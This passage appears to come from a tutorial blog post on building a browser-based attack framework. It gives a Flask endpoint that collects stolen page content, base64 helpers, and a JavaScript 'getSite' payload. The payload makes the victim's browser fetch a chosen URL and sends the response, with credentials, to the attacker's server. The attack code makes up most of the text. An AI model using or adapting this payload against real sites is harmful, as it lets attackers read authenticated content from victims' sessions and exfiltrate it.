 <h2>Save the site</h2>

```
@app.route("/saveSite", methods=['POST'])
def saveSite():
    global isNewFileDownloaded
    global downloadedSite

    siteBase64 = request.form["site"]
    downloadedSite = decodeBase64(siteBase64)
    isNewFileDownloaded = True
    return ""

```
<br>
We also need a simple endpoint that will handle the saving of the site. Remember that the setSiteCommand function will wait until this function sets the global isNewFileDownloaded parameter. Here the only thing that happens is that we grab the site content base64 encoded and after decoding it we will store it in downloadedSite.
<br>
```
def encodeBase64(message):
    message_bytes = message.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')
    return base64_message

def decodeBase64(message):
    base64_bytes = message.encode('ascii')
    message_bytes = base64.b64decode(base64_bytes)
    result = message_bytes.decode('ascii')
    return result
```
<br>
We also have some basic base64 encoding6decoding functions we used in the code. 

<h2>The payload</h2>
To make the payload work, we need to set a new command. We need to set the usual parameters in the function executeCommand and some variables at the beginning the full code is at the end of the post. The most important part is the newly added function to handle getting the site.
<br>
```
async function getSite() {
    site = atob(site)
    const response = await fetch(site,{
        method: "GET"
    })
    let text = await response.text()

    downloadedSiteBase64URLEncoded = encodeURIComponent(btoa(text))
    postdata = "site=" + downloadedSiteBase64URLEncoded + "&" + "name=test.js"
    xhr = new XMLHttpRequest();
    xhr.open('POST', saveSiteUrl);
    xhr.withCredentials = "true";
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhr.send(postdata);
}
```
<br>
First we need to convert the url we got from base64 back to string. We can do this with the built- in atob function. Then we will call the site with a GET request and grab the response text. First we encode it to base64 with the btoa built in function then we should make sure that everything is correctly encoded so we use the encodeURIComponent as in the previous examples. Other than these we need to set different basic parameters as for all the other commands.
